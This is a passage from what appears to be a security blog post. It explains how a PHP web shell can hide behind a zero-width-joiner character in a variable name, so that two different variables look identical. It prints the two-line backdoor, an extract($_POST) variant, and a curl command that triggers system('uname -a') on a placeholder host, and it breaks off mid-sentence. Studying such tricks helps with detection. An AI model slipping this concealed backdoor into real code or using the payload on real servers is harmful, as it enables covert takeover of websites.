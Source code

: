 # Weird PHP variables

Does this tiny PHP file seem harmful ?

```php
list($x, $x‍) = $_POST;
$x($x‍);
```

_These two lines of PHP code could be put somewhere in a legitimate file (maybe not as sequential instructions)._

Of course, the second line extracts untrusted data and creates variables from it, and uses it to call variable functions. However, it seems that it can only be something like `'system'('system')` or `'exec'('exec')`, with the argument value being the same as the function name, and such instructions should not be useful. Is it, really ?

However, running an `xxd` on the file reveals that the second `$x` is actually not the same as the first one. The variable name also contains the _U+200D ZERO WIDTH JOINER_ character (`\xE2\x80\x8D`). 

<img width="50%" style="margin-left:auto;margin-right:auto;display:block;" alt="weird_shell2" src="/assets/res/stuff/weird_shell2.png">

Some odd non-printable characters are appended to its name. According to the PHP documentation, variable names are valid as long as they follow this regular expression:

```
^[a-zA-Z_\x80-\xff][a-zA-Z0-9_\x80-\xff]*$
```

which means that letters (uppercase and lowercase), numbers, underscores and binary characters can be used (the first one cannot be a number). Some of these non-printable characters can be invisible ([invisible-characters.com](https://invisible-characters.com/)), making `$x` variables visually (almost) the same. To trigger code execution, the same payload can be used:

```bash
$ curl -k http://targ.et/test.php -d '0=system' -d '1=uname -a'
```

However, if the version with `extract` is used:

```php
extract($_POST);
$x($x‍);
```

named indexes must be used for the two `$x` variables (a real one and a look-alike), and the `curl` command would be something like:

